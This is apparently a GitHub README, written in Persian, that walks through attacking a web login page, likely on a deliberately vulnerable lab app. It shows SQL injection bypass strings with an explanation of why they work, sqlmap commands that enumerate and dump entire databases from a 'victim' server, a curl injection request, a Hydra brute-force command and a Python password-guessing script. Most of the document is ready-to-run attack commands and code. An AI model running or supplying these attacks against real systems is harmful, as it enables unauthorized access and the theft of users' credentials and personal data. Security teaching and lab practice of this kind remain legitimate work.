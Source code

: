 # 1. login with website

```
admin' --
123
```

```
' OR '1'='1' --
123
```

<p dir="rtl" align="justify">
  <ul dir="rtl">
  <li>' : اولین تک کوتیشن، این کار باعث بسته شدن رشته ورودی username می‌شود.</li>
	<li>-- : یک کامنت در SQL است که بقیه کوئری را نادیده می‌گیرد</li>
	<li>نتیجه این می‌شود که شرط WHERE همیشه درست خواهد بود و کوئری اولین کاربر از جدول را برمی‌گرداند (معمولاً کاربر مدیر).</li>
	<li>OR '1'='1' : یک شرط همیشه درست اضافه می‌کند (1 همیشه برابر با 1 است)</li>
  </ul>
</p>


```sql
SELECT * FROM auth_user  WHERE username='{username}' AND password='{password}'
```
```sql
SELECT * FROM vuln_app_user WHERE username='' OR '1'='1' -- ' AND password='...'
```

<p dir="rtl" align="justify">نتیجه نهایی:</p>

```sql
SELECT * FROM auth_user WHERE username='' OR '1'='1'
```

# 2. sqlmap

<p dir="rtl" align="justify">1. نصب sqlmap (اگر وجود ندارد):</p>

```
sudo apt update && sudo apt install sqlmap
```

<p dir="rtl" align="justify">2. اجرای حمله به صفحه لاگین:</p>

```
sqlmap -u "http://IP-سرور-قربانی/login/" --data="username=admin&password=123" --method=POST --risk=3 --level=5 --dbs
```

<p dir="rtl" align="justify">
  <ul dir="rtl">
    	<li>--data: پارامترهای POST ارسالی.</li>
	<li>--dbs: لیست پایگاه‌های داده را نمایش می‌دهد.</li>
  </ul>
</p>

<p dir="rtl" align="justify">هدف: پیدا کردن لیست دیتابیس‌های موجود (dbs--).</p>


<p dir="rtl" align="justify">برای حمله پیشرفته‌تر:</p>

```
sqlmap -u "http://IP-سرور-قربانی/login/" --data="username=admin&password=123" --method=POST --dump-all
```

<p dir="rtl" align="justify">هدف: استخراج تمام داده‌های تمام جداول از تمام دیتابیس‌ها (dump-all--).</p>

<p dir="rtl" align="justify">
	<ul dir="rtl">
	  <li>کاربرد:
		<ul dir="rtl">
		  <li>.نه تنها نام دیتابیس‌ها، بلکه تمامی جداول، رکوردها و اطلاعات حساس (مثل کاربران، پسوردها، اطلاعات شخصی) را دانلود می‌کند.</li>
		  <li>.یک حمله کامل و تهاجمی است که تمام محتوای دیتابیس را افشا می‌کند.</li>
		</ul>
	  </li>
	</ul>
</p>

# 3. curl

```
curl -X POST "http://IP-سرور-قربانی/login/" -d "username=' OR '1'='1' --&password=123"
```


# 4. Brute Force

<p dir="rtl" align="justify">1. با ابزارهای خودکار (مثل Hydra)</p>

```
hydra -l admin -P /usr/share/wordlists/rockyou.txt victim-ip http-post-form "/login:username=^USER^&password=^PASS^:F=login_failed.html"
```

<p dir="rtl" align="justify">
  <ul dir="rtl">
    <li>l admin-: نام کاربری هدف.</li>
	<li>P rockyou.txt-: لیست پسوردهای معروف.</li>
	<li>http-post-form: نوع حمله (POST).</li>
	<li>F=login_failed.html: شرط تشخیص شکست (اگر این صفحه نمایش داده شد، پسورد اشتباه است).</li>
  </ul>
</p>


<p dir="rtl" align="justify">2. با یک اسکریپت پایتون ساده (اگر می‌خواهید خودتان بنویسید)</p>

```python
import requests

target_url = "http://victim-ip/login/"
username = "admin"
passwords = ["123456", "password", "admin123", "123"]  # یا از یک فایل بخوانید

for password in passwords:
    data = {"username": username, "password": password}
    response = requests.post(target_url, data=data)
    if "login_success" in response.text:
        print(f"✅ پسورد پیدا شد: {password}")
        break
    else:
        print(f"❌ امتحان شد: {password}")
```
